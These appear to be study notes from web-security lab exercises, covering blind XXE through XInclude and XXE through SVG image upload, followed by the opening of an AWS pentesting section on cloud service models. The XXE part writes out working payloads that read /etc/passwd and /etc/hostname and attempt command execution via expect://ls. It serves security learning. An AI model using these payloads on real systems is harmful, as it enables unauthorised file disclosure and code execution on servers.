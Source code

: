
TYPE 2: Blind XXE
•	Lab 3: Exploiting XInclude to retrieve files
o	For POST /product/stock HTTP/1.1
productId=2&storeId=3
o	Here, there is no XML code to inject XEE
o	In this case we have to use XInclude statement to retrieve the data.
o	XInclude:
	A part of the XML specification that allows an XML document to be built from sub-documents. 
	Can place an XInclude attack within any data value in an XML document, so the attack can be performed in situations where you only control a single item of data that is placed into a server-side XML document.
•	For ex: productId=2 & storeId=3 (in the place of 2 and 3)
	To perform an XInclude attack, you need to reference the XInclude namespace and provide the path to the file that you wish to include.
	For example:
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> 
<xi:include parse="text" href="file:///etc/passwd"/></foo>
o	productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=3

TYPE 1: File Retrieval XXE 
•	Lab 4: Exploiting XXE via image file upload
o	Here we can inject payload into the .svg image file.
o	Scalable Vector Graphics (SVG) are an XML-based markup language for describing two-dimensional based vector graphics.
o	Payload.svg
	<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
o	Or payload2.svg
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" 
xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org" version="1.1">
	<text font-size="16" x="0" y="16">&xxe;</text></svg>
o	Upload payload.svg file on server and open into new tab
o	Or view page source find the image link and open it.

------------
 
Section 8
# AWS PEN-TESTING

1. Pentesting in the Cloud:
	The cloud computing service models
o	Created by the NIST 2009
o	Offer scalability and flexibility.
o	3 Service modalities:
	IaaS (Infrastructure-as-a-service)
•	On-demand virtualized IT infrastructure
•	Most complete modality
•	Most Flexible
•	Provides infrastructure services.
o	Like network, storage, and virtualization
